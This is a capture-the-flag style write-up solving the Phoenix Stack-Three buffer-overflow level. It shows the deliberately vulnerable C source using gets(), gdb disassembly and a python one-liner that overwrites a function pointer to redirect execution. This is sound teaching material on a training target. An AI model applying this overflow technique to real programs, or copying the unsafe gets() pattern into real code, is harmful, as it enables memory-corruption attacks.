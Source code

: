 ```yaml
---
title: Phoenix Stack-Three
author: Marius Kimmina
date: 2019-10-27 14:10:00 +0800
categories: [Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In this level we have to use yet another buffer-overflow change the Function-pointer to call a specific function. This is 
still a very basic level but it gives an introduction to the more complex capabilities of buffer-overflows.

### 0x1. Taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our goal here is to execute the function "complete_level()". The function pointer gets set to "NULL" and then it is our old friend "gets" again.
In case you have not read the last Posts on this series, gets is a very old c function that should never be used since it doesn't implement any 
security checks whatsoever. There are better alternatives nowadays like "fgets".

```c
locals.fp = NULL;
gets(locals.buffer)
```


### 0x2 Exploiting the program

The first thing we need is the address of "complete_level()". Since we know the name of the function we can just disassemble it and thus get its address:

```
(gdb) disassemble complete_level 
Dump of assembler code for function complete_level:
   0x000000000040069d <+0>:	push   rbp
   0x000000000040069e <+1>:	mov    rbp,rsp
   0x00000000004006a1 <+4>:	mov    edi,0x400790
   0x00000000004006a6 <+9>:	call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:	mov    edi,0x0
   0x00000000004006b0 <+19>:	call   0x400510 <exit@plt>
End of assembler dump.
```

So now we know that we need to write "0x000000000040069d" to the function pointer, or "40069d" since leading zeros don't matter.  
Then we need, yet again, to craft some input that will tell us when exactly we start to write into the function_pointer. As always im going to use the alphabet for that.

```
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
calling function pointer @ 0x5252525251515151

Program received signal SIGSEGV, Segmentation fault.
0x5252525251515151 in ?? ()
```

Now we know that we will write into the function pointer at Q and R (because 0x52 corresponds to R and 0x51 corresponds to Q).
The easiest way that I know to input the correct function address is to simply decode it with python.

```
user@phoenix-amd64:~$ python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP" + ("9d06400000000000").decode("hex")' |  /opt/phoenix/amd64/stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

Keep in Mind that you have to use 9d06400000000000 and not 000000000040069d because phoenix is little endian, which means we read byte-by-byte from right to left.

